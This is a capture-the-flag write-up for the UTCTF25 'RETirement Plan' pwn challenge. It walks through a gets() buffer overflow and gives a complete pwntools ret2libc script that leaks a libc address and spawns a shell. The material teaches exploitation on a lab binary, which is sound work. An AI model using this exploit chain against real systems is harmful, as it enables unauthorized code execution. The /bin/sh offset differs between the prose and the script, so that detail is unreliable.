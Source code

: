 
# WriteUp for  RETirement Plan @ UTCTF25
## Category: Binary Exploitation / Pwn

Upon opening the challenge we are presented with a binary and a libc file
    

Checking the binary we get

`    
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x3fe000)
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
`

We see the file has:    
- ==No stack canary== : so the buffer overflow is possible
- ==NX is not enabled== : so injection of code in the stack is possible        

Let's now analyze the binary file on a tool like ghidra
![Binary](decompiled.png)

What the code does is very simple:

```
    It uses puts to display an output to the user 
    Uses gets to get user input into a 48 byte buffer (exploitable via overflow)
    And for each char od the user input it transforms them in their opposite, meaning a -> z, b -> x, A -> Z ...
    if the character is lowercase does -0x25, if it is uppercase does -0x65
``` 


    From this we know that the code will never provide us a flag, so we need to execute system("/bin/sh"), for this we need to know the system call address and the /bin/sh address. 
    Due to the machine having ASLR enabled, these addresses will always be random, but their offset to the libc base address is always constant, and we have the libc file so lets find their offsets 

    Upon running the libc in gdb and doing p system we receive : 
    `$1 = {<text variable, no debug info>} 0x453a0 <system>`
    So our system offset is ==0x453a0== 

And if we do 
`strings -t x libc-2.23.so | grep /bin/sh` 
we get the /bin/sh offset ==18ce57==

    So if we get the address of a call in the program, we can use it to calculate the libc base address and then the system's and /bin/sh's, so let's choose the first call, puts()

    we see on the libc that the puts offset is :
`$1 = {<text variable, no debug info>} 0x6f6a0 <puts>`

    So essentially what we need to do is run the program, get puts address, call main() again so process doesn't finish, calculate the system() and /bin/sh addresses, call system with /bin/sh.

    So now we need to get the main() address and gadgets to overwrite the return address
    
    If we use cylic to crash the program and check it using gdb we can see
![main](main.png)

That the main address is 0x40070d - 247 = ==0x400616==

    Getting the gadgets using ROPGadget 
    
```
    ROPgadget --binary ./shellcode | grep "pop rdi"
    0x0000000000400793 : pop rdi ; ret
    0x00000000004004a9 : ret
```

    pop rdi: Pops the top value from the stack into the rdi register.
    ret: Returns to the next address on the stack.

    The first argument to a function is passed in the rdi register. For example:
    To call puts("Hello"), the address of the string "Hello" must be placed in rdi.
    To call system("/bin/sh"), the address of the string "/bin/sh" must be placed in rdi.

    The pop rdi; ret gadget allows us to control the rdi register by popping a value from the stack into it.



Polished commented script 

```
from pwn import *

# Load the binary and libc
elf = context.binary = ELF('./shellcode')
libc = ELF('./libc-2.23.so')
p = process('./shellcode')

# Address of a frame_dummy, to clear the registers so we dont crash,  mov eax, 0x0
add = 0x400600

# Receive initial prompt
p.recv()

# Payload to leak the address of puts
payload = b'A' * 47  # Padding (gets tries to get 48 bytes)
payload += b'F'  # Marker for reference
payload += p64(add)  # Overwrite return address
payload += 16 * b'b'  # Additional padding
payload += p64(0x400793)  # pop rdi; ret gadget pops the next value in the stack (puts GOT) into rdi, and return (plt.puts) which calls puts(puts@got) and prints the puts address
payload += p64(elf.got.puts)  # Address of puts in GOT
payload += p64(elf.plt.puts)  # Call puts to leak the address
payload += p64(0x400616)  # Return to main for second stage

p.sendline(payload)

# Parse the leaked address of puts
p.recvuntil(b'F')
output = p.recvuntil(b'\n').strip()
puts_addr = u64(output.ljust(8, b'\x00'))
 
libc_addr = puts_addr - 0x6f6a0  # Offset of puts in libc
bin_sh = libc_addr + 0x18ce67  # Offset of /bin/sh in libc
system_addr = libc_addr + 0x453a0  # Offset of system in libc

# Second payload to spawn a shell
payload2 = b'C' * 48  # Padding
payload2 += p64(add)  # Overwrite return address
payload2 += 16 * b'b'  # Additional padding
payload2 += p64(0x00000000004004a9)  # ret gadget for stack alignment
payload2 += p64(0x400793)  # pop rdi; ret gadget pops next value (bin_sh) into rdi and returns this instruction to the next address in the stack (system_addr) calling system("/bin/sh") 
payload2 += p64(bin_sh)  # Address of /bin/sh
payload2 += p64(system_addr)  # Call system

p.sendline(payload2)

# Interact with the shell
p.interactive()
```

![flag](flag.png)
